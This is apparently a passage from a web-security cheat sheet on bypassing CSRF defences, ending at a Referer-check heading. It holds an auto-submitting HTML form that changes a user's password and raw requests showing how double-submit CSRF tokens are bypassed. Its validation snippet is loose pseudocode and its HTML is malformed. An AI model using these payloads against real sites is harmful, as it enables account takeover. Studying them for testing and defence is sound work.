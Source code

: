       ```html
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE
      (POST request body)
      new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
      ----------------------------------
      <html>
       <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
       <input type="text" name="new_password" value="abc123">
       <input type="text" name="csrf_token" value="871caef0757a4ac9691aceb9aad8b65b ">
       <input type='submit' value="Submit">
      </form>
       <script>document.getElementById("csrf-form").submit();</script>
      </html>
      --------------------------------------------------------------
      ## Expected Code
      def validate_token():
       if request.csrf_token:
      	 if (request.csrf_token in valid_csrf_tokens):
      			 pass
      	 else:
      		 throw_error("CSRF token incorrect. Request rejected.")
      [...]
      def process_state_changing_action():
      	 validate_token()
      	 execute_action()
      ```
  *   **Bypass Double submit CSRF tokens**

      ```python
      # Valid 
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
      (POST request body)
      new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
      --------------------------
      # Invalid
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=1aceb9aad8b65b871caef0757a4ac969
      (POST request body)
      new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
      ---------------------------------------
      # Bypass 
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
      (POST request body)
      new_password=abc123&csrf_token=not_a_real_token
      ```
  *   **Bypass CSRF Referer Header Check**
